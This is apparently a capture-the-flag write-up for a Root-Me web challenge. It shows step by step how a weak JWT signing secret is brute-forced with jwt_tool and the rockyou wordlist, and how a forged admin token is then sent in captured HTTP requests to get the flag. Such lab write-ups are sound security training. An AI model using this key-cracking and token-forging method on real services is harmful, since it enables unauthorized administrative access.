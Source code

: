 # JSON Web Token (JWT) - Weak secret (key brute-forcing)



References

https://blog.pentesteracademy.com/hacking-jwt-tokens-bruteforcing-weak-signing-key-johntheripper-89f0c7e6a87

https://internet-lab.ru/ctf\_jwt\_weak\_secret

***

Accessing this url:

http://challenge01.root-me.org/web-serveur/ch59/hello

\->

I got this message:

message "Let's play a small game, I bet you cannot access to my super secret admin section. Make a GET request to /token and use the token you'll get to try to access /admin with a POST request."

\->

Just use normal url, since it is taken as GET request

Here is your token "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh\_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"

\->

then now use burp proxy to capture and modify the request

```
POST /web-serveur/ch59/admin HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1662082169.34.1.1662082188.0.0.0; _ga=GA1.1.536088429.1661133467; jwt= eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw;
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

\->

Response

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 02 Sep 2022 01:35:52 GMT
Content-Type: application/json
Content-Length: 76
Connection: close

{"message": "method to authenticate is: 'Authorization: Bearer YOURTOKEN'"}
```

\->

Modified request

```
POST /web-serveur/ch59/admin HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1662082169.34.1.1662082188.0.0.0; _ga=GA1.1.536088429.1661133467;
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

\->

response

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 02 Sep 2022 01:41:37 GMT
Content-Type: application/json
Content-Length: 119
Connection: close

{"message": "I was right, you are not able to break my super crypto! I use HS512 so no need to have a strong secret!"}
```

now I need to crack the secret key

└─$ nano jwt.txt

install cupp

***

find the secret key with rockyou file

└─$ python3 /opt/jwt\_tool/jwt\_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh\_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw

└─$ sudo python3 /opt/jwt\_tool/jwt\_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh\_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw -C -d /usr/share/wordlists/rockyou.txt\
\-C : crack

Original JWT:

\[+] lol is the CORRECT key! You can tamper/fuzz the token contents (-T/-I) and sign it using: python3 jwt\_tool.py \[options here] -S HS512 -p "lol"

\->

now generate new jwt

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiYWRtaW4ifQ.y9GHxQbH70x\_S8F\_VPAjra\_S-nQ9MsRnuvwWFGoIyKXKk8xCcMpYljN190KcV1qV6qLFTNrvg4Gwyv29OCjAWA

\->

send request

```
POST /web-serveur/ch59/admin HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiYWRtaW4ifQ.y9GHxQbH70x_S8F_VPAjra_S-nQ9MsRnuvwWFGoIyKXKk8xCcMpYljN190KcV1qV6qLFTNrvg4Gwyv29OCjAWA
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1662082169.34.1.1662082188.0.0.0; _ga=GA1.1.536088429.1661133467;
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

\->

get the request here

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 02 Sep 2022 03:02:43 GMT
Content-Type: application/json
Content-Length: 77
Connection: close

{"result": "Congrats!! Here is your flag: (redacted)\n"}
```
